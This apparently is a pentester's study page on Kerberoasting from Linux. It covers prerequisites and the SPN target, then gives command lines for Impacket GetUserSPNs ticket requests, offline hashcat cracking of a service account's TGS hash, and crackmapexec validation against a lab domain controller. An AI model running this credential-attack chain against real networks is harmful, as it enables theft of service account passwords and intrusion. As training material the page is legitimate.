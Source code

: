 # Kerberoasting - From Linux

## Kerberoasting Attack Process

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Step 1: Fix Clock Skew Error

To fix the clock skew error, use the following commands:

```bash
timedatectl set-ntp off
sudo ntpdate 192.168.10.20
```

### Prerequisites

A prerequisite for performing Kerberoasting attacks is having domain user credentials (either cleartext or an NTLM hash, if using Impacket), a shell in the context of a domain user account, or a high-privileged account like SYSTEM. Once you gain this level of access, you can start. You also need to identify the Domain Controller within the domain to query it.

### Target of the Attack

This attack targets **Service Principal Names (SPN)** accounts.

SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running.

Any domain user can request a Kerberos ticket for any service account in the same domain.

**Depending on your position in a network, this attack can be performed in multiple ways:**

* From a non-domain joined Linux host using valid domain user credentials.
* From a domain-joined Linux host as root after retrieving the keytab file.
* From a domain-joined Windows host authenticated as a domain user.
* From a domain-joined Windows host with a shell in the context of a domain account.
* As SYSTEM on a domain-joined Windows host.
* From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.

#### Commands

* `Impacket-GetUserSPNs.py -dc-ip 192.168.10.20 DOMAIN.LOCAL/dollarboysushil` → list SPN accounts
* `Impacket-GetUserSPNs.py -dc-ip 192.168.10.20 DOMAIN.LOCAL/dollarboysushil -request` → Requesting all TGS tickets
* `Impacket-GetUserSPNs.py -dc-ip 192.168.10.20 DOMAIN.LOCAL/dollarboysushil -request-user sqldev` → Requesting a single TGS ticket.

We can use `-outputfile filename` flag to save the TGS ticket in a file.

* `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt` → Cracking Ticket offline using Hashcat
* `sudo crackmapexec smb 192.168.10.20 -u sqldev -p database!` → Testing authentication against a domain controller
